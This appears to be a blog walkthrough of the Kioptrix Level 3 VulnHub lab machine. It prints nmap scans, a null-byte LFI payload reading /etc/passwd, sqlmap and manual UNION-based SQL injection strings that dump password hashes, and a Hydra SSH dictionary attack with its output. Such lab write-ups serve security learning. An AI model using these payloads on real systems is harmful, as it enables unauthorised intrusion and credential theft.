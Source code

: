 ```yaml
---
layout: post
title:  "Kioptrix Level 3 Walkthrough"
date:   2019-04-14 21:28:02 +0530
categories: [vulnhub, vulnerable-machine]
---
```

Kioptrix level 3 vulnhub link below: <br>
[Kioptrix Level 3 download page]
<br><br>
<h2>1. Enumeration</h2>
A port scan reveals that only SSH and HTTP is open.
{% highlight shell_session %}
nmap -T4 -sV -A -oA nmapscan 192.168.0.71
Nmap scan report for UNKNOWN (192.168.0.71)
Host is up (0.0051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
{% endhighlight %}
<br>


<h3>1.1 SSH</h3>
SSH appears to not have any vulnerable versions. However, SSH could possibly have weak credentials.
<br><br>


<h3>1.2.1 HTTP</h3>
Dirb and Nikto is run in the background to check for any interesting pages or vulnerabilities. Dirb reveals
that there is an accessible <font color="red">phpmyadmin</font> page. The page can be logged in
using the username <font color="red">root</font> and the
password can be a random string. However, this did not really reveal anything and the default login has no privileges.
<br><br>
The login page reveals that it is powered by <font color="red">lotus</font>.
<br><br><br>
![Kioptrix level 3 lotus login](/assets/images/Kioptrix/Kioptrix3-lotus-login.png)
<br><br>
Using searchsploit, a vulnerability is found:
<br>
![Kioptrix level 2 lotus vuln](/assets/images/Kioptrix/Kioptrix3-lotus-cms-vuln.png)
<br><br>
This vulnerability is for remote command execution with metasploit. This can be used
to get a meterpreter shell on the target. Finding this exploit was too easy. However there are several
vulnerabilities on this machine.
<br><br>


<h3>1.2.2 HTTP - LFI</h3>
The URL appears to include files, this could possibly be vulnerable to LFI.
<br><br>
`http://192.168.0.71/index.php?system=Blog`
<br><br>
Using the following after system <font color="red">../../../../../etc/passwd</font> reveals nothing. However, with some research.
The OWSAP 'Testing for LFI page' reveals that when using PHP, a null byte terminator at the end of the file will
bypass it. When using the following:
<br><br>
`http://vulnerable_host/preview.php?file=../../../../etc/passwd%00jpg`
<br>
{% highlight shell_session %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
...............
...............
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
{% endhighlight %}
This shows the passwd contents which can used for brute forcing SSH. <font color="red">loneferret</font> and <font color="red">dreg</font> can be used to perform a
dictionary attack against them over SSH.
<br><br>
More info from OWASP here: [OWASP LFI testing]
<br><br>


<h3>1.2.3 HTTP - sqlmap (Easy SQL Injection)</h3>
<br>
When browsing the website, the gallery page has a button to filter by an ID. This appears to
be a form of retrieving data from the SQL database. Using the <font color="red">'</font> at the end of the ID, an SQL
error appears which is good news. The website is vulnerable to SQL. SQLmap is then used to check for the
databases:
<br><br>
`sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=">http://192.168.0.71/gallery/gallery.php\?id\= --dbs`
<br><br>
available databases [3]:<br>
<font color="red">gallery</font>---
<font color="red">information_schema</font>---
<font color="red">mysql</font>---
<br>
Three databases were revealed above. The gallery database could be the contents of
the images and users of the gallery. The database <font color="red">gallery</font> can searched next.
<br><br>
<font color="red">sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=">http://192.168.0.71/gallery/gallery.php\?id\= -D gallery --'tables'</font>

{% highlight shell_session %}
Database: gallery
[7 tables]
+----------------------+
| `dev_accounts`       |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+
{% endhighlight %}
<br>
A table of <font color="red">dev_accounts</font> is worth investigating, this could contain <font color="red">dev</font> accounts.. duh.
<br><br>
<font color="red">sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=http://192.168.0.71/gallery/gallery.php\?id\= -D gallery -T dev_accounts --dump</font>

{% highlight shell_session %}
Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+
{% endhighlight %}
<br>
The <font color="red">dev_accounts</font> results contain 2 usernames and 2 hashes which were easily
crackable with sqlmap.
<br><br>
<h3>1.2.4 HTTP - SQLI (without sqlmap)</h3>

Checking for the amount of columns by using <font color="red">ORDER BY</font>.<br>
<font color="red">id=2 union select 1,2,3,4,5,6</font>
<br><br>
Finding the database and tables using <font color="red">UNION SELECT</font>. This results in the database <font color="red">gallery</font> being shown. <br>
<font color="red">id=2 UNION SELECT 1, table_schema, table_name,4,5,6 FROM information_schema.tables--</font>
<br><br>
Searching inside the database gallery:<br>
<font color="red">id=1 UNION SELECT 1, table_name,3,4,5,6 FROM information_schema.tables WHERE table_schema = 'gallery'#</font>
<br><br>
The gallery table shows the dev_accouns table. The dev_accounts can then be searched for the columns.<br>
<font color="red">id=1 UNION SELECT 1, column_name,3,4,5,6 FROM information_schema.columns WHERE table_name = 'dev_accounts'#</font>
<br><br>
The columns reveal the 2 user accounts and there corresponding hashes. The hashes can then be cracked with
john the ripper.
<br><br>

<h2>2.1 Exploitation - SSH</h2>

The credentials fetched from the LFI attack can be run against a dictionary.<br>
{% highlight shell_session %}
hydra -t 6 -l loneferret -P 10k-most-common.txt 192.168.0.71 ssh
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking ssh://192.168.0.71:22/
[STATUS] 52.00 tries/min, 52 tries in 00:01h, 9948 to do in 03:12h, 4 active
[22][ssh] host: 192.168.0.71   login: loneferret   password: starwars
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}
<br>
The dictionary attack with Hydra above was successful and the password was revealed as <font color="red">starwars</font>. When attempting to login
to SSH with this username and password it is successful. When browsing files i found a configuration file in the gallery
directory which contains the mysql login which is <font color="red">root</font> and the password is <font color="red">fuckeyou</font>. This gives us full root access to
the database.
<h3>Pwned!</h3>

[Kioptrix Level 3 download page]: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/
[OWASP LFI testing]: https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
